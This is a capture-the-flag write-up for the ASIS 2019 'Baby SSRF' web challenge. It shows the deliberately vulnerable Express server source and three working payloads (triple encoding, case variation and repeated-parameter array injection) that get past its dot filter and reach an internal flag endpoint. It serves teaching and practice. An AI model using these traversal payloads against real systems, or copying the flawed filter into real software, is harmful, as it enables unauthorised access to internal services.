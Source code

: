 # ASIS CTF quals - 2019

###### Contributed by k1tten
## Baby SSRF - 70 / Web


Description:
The goats thought they were safe behind the walls from the threat of the wolf!
But they were not aware of the wolf's plan to bypass the wall!


### Solution

The first hint was inside the header, and the source code can be found from it:

```
HTTP/1.1 200 OK
X-Powered-By: Express
GET: source
Content-Type: text/html; charset=utf-8
Content-Length: 22
ETag: W/"16-Ypo4AziLbHOiFWFpNXHkFH9U8Dc"
Date: Tue, 23 Apr 2019 16:55:11 GMT
Connection: close

Hi, I'm a baby ssrf :)
```

Here's the source code.

```
const express = require("express");
const body_parser = require('body-parser');
const http = require('http')
const public_s = express();
const private_s = express();
const normalizeUrl = require('normalize-url');

public_s.use(body_parser.urlencoded({
    extended: true
}));

public_s.get('/', function (request, result) {
    result.setHeader('GET', 'source')
    result.send("Hi, I'm a baby ssrf :)")
    result.end()
})

public_s.get('/source', function(req, res) {
    res.sendFile(__filename)
  })

public_s.use(function (req, res, next) {
    var err = null;
    try {
        decodeURIComponent(req.path)
    } catch (e) {
        err = e;
    }
    if (err) {
        res.sendStatus(400).end()
    }
    next();
});

public_s.post('/open/', (request, result) => {
    document_name = request.body.document_name

    if (document_name === undefined) {
        result.end('bad')
    }
    console.log('http://localhost:9000/documents/' + document_name)
    if (document_name.indexOf('.') >= 0 ||
        document_name.indexOf("2e") >= 0 ||
        document_name.indexOf("┮") >= 0 ||
        document_name.indexOf("Ｅ") >= 0 ||
        document_name.indexOf("Ｎ") >= 0) {
        result.end('Please get your banana and leave!')
    } else {
        try {
            var go_url = normalizeUrl('http://localhost:9000/documents/' + document_name)
        } catch(error) {
            var go_url = 'http://localhost:9000/documents/banana'
        }
        http.get(go_url, function (res) {
            res.setEncoding('utf8');

            if (res.statusCode == 200) {
                res.on('data', function (chunk) {
                    result.send(chunk)
                    result.end()
                });
            } else {
                result.end('Oops')
            }
        }).on('error', function (e) {
            console.log("Got error: " + e.message);
        });
    }
})

public_s.listen(8000)
private_s.listen(9000)

private_s.get('/documents/banana', function (request, result) {
    result.send("Here is your banana :D")
    result.end()
})

private_s.get('/flag', function (request, result) {
    result.send("flag{flag_is_here}")
    result.end()
})
```

Apparently we have to access `http://localhost:9000/flag` to get the flag, but some common symbols for path traversal(`.`, `2e`) were blocked, even the unicode bypass characters(`┮`, `Ｎ`) were also blocked.
(ref: Orange Tsai：[A New Era Of SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

We found that it uses `normalizeUrl()` to encode unicode characters, so the unicode failure seems not working here.

```
Original:    http://localhost:9001/documents/ＮＮ
Normalized:  http://localhost:9001/documents/%EF%BC%AE%EF%BC%AE
```

(I don't know why to block the char `Ｅ` XDDDD)

After few tries on the local machine, we find it can be easily bypassed through three ways:
Triple encoding, request with `object` type.
We could even just use `%2E` because the blocking rule `%2e` was case insensitive.

```
### console.log for test ###

console.log('Original:    http://localhost:9001/documents/' + document_name)
console.log('Normalized:  ' + normalizeUrl('http://localhost:9001/documents/' + document_name))
console.log('Typeof:    ' + typeof(document_name))
console.log('indexOf(.):' + document_name.indexOf('.'))

######

#1 bypass with triple encoding
Request args：document_name_get=%25%32%45%25%32%45/flag
Origin:    http://localhost:9001/documents/%2E%2E/flag
Normalize: http://localhost:9001/flag
Typeof:    string
indexOf(.):-1

#2 bypass using different case
Request args：document_name_get=%252E%252E/flag
Origin:    http://localhost:9001/documents/%2E%2E/flag
Normalize: http://localhost:9001/flag
Typeof:    string
indexOf(.):-1

#3 bypass with object
Request args：document_name_get=foo&document_name_get=/../../flag
Origin:    http://localhost:9001/documents/foo,/../../flag
Normalize: http://localhost:9001/flag
Typeof:    object
indexOf(.):-1
```

`ASIS{68aaf2e4dd0e7ba28622aaed383bef4f}`
